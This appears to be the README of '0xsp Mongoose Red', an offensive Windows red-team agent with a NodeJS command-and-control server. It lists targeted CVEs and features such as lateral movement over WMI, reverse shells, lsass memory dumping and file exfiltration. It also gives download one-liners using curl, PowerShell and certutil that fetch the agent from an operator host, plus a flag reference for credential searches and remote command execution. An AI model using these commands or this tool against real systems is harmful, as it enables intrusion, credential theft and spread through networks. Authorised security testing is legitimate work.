 [![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[<img src="https://img.shields.io/badge/join-telegram-blue">](https://t.me/join0xsp)
[<img src="https://img.shields.io/badge/build%20with-Lazarus-red.svg">](https://www.lazarus-ide.org/)
[<img align="right" src="https://github.com/lawrenceamer/0xsp-Mongoose/blob/0xsp-red/lg.png?raw=true" height="512" width="400">]()
[<img src="https://www.finextra.com/finextra-images/top_pics/xl/twitter.jpg" height="64" width="128">](https://twitter.com/zux0x3a)
# 0xsp Mongoose Red for Winodws 

0xsp mongoose red version is provided to assist your needs during cyber security simulation, by using this version you will be able to audit a targeted windows operation system 
for system vulnerabilities, misconfigurations and privilege escalation attacks.

with node js support for web application api, it becomes much easier for installation and customization in timely manner, the windows sensor agent will communicate with application api to transfer results, and receive commands as bidirectional technique. 

the agent is able to identify and detect windows exploits by using `windows update api` and `exploit database definitions` modules, the new release will detect also the following 
vulnerabilities.
 
* CVE-2019-0836
* CVE-2019-0841
* CVE-2019-1064
* CVE-2019-1130
* CVE-2019-1253
* CVE-2019-1385
* CVE-2019-1388
* CVE-2019-1405
* CVE-2019-1315
* CVE-2020-0787
* CVE-2020-0796
* CVE-2020-0797 

## Features 

* web application built with NodeJS 
* supports sqlite DB 
* Lateral movements techniques. 
* Bidirectional communication channel.[ video ](https://www.youtube.com/watch?v=tyhBuWCB_aY)
* Plugins online packaging.  
* Enhanced exploit detecter scripting engine. 
* weaponization of run-as-user windows api function.
* local network scanning and shares enumeration.
* lsass memory dummping technique (plugin).

### installation 

```
git clone --single-branch --branch 0xsp-red https://github.com/lawrenceamer/0xsp-mongoose
cd 0xsp-mongoose/ 
npm install 
node index.js
```

### quick deploy of agent 

```
#example 1 
curl.exe -o agent.exe http://nodejsip:4000/release/x64.exe
#example 2 
powershell.exe -command (new-object net.webclient).downloadfile('http://nodejsip:4000/release/x64.exe','c:\tmp\agent.exe');
#example 3 
certutil.exe -urlcache -split -f "http://nodejsip:4000/release/x64.exe" agent.exe

```


### Usage 
```
-s --retrieve windows services and installed drivers.
-u --retrieve information about Users, groups, roles.
-c --search for senstive config files by extension.
-n --retrieve network information,network interfaces, connection details.
-w --enumerate for writeable directories, access permission Check, modified permissions.
-i --enumerate windows system information, Sessions, log information.
-l --search in any file for specific string , ex : agent.exe -l c:\ password *.config.
-o --specify host address of nodejs application.
-p --enumerate installed Softwares, Running Processes, Tasks .
-e --kernel inspection Tool, it will help to search through tool databases for windows kernel vulnerabilities
-x --password to authorize your connection with node js application.
-d --download Files directly into Target Machine .
-t --upload Files From target machine into node js application.
-m --run all known scan Types together .

-r --spawn a reverse shell with specific account(weaponization of run-as-user windows api function).
-lr --Lateral movement technique using WMI (e.g -lr -host 192.168.14.1 -username administrator -password blabla -srvhost nodejsip )
-nds --network discovery and share enumeration
-cmd --transfer commands via HTTP Shell
-interactive --starting interactive mode (eg : loading plugins ..etc)
-username --identity authentication for specific attack modules.
-password --identity authentication for specific attack modules.
-host --identify remote host to conduct an attack to.
-srvhost --set rhost of node js application.(bidirectional communications).
```
